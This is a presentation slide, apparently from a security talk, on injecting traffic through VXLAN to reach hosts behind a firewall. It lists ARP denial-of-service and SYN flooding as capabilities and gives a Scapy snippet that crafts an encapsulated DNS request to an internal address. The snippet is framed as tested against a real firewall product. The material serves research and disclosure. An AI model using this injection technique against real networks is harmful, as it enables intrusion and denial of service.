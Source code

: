 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\begin{list2}
\item Inject ARP traffic, send arbitrary ARP packets to hosts, connectivity DoS
\item Inject TCP like SYN traffic behind the firewall, wire speed SYN flooding
\item Inject UDP packets and get responses sent out through firewall
\item Really anything IPv4 and IPv6 can be injected
\end{list2}







{\small Attacker can send UDP DNS request to inside server on RFC1918 destination - server has no external IP or incoming ports forwarded.\\
Tested working with Clavister with DNS UDP probes/requests, no inspection }



First create VXLAN header and inside packet
\begin{verbatim}
vxlanport=4789     # RFC 7384 port 4789, Linux kernel default 8472
vni=37             # Usually VNI == destination VLAN
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")

broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
# this port is a high port, just make this look like a normal request
testport=54040
packet=vxlan/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{verbatim}
\end{document}

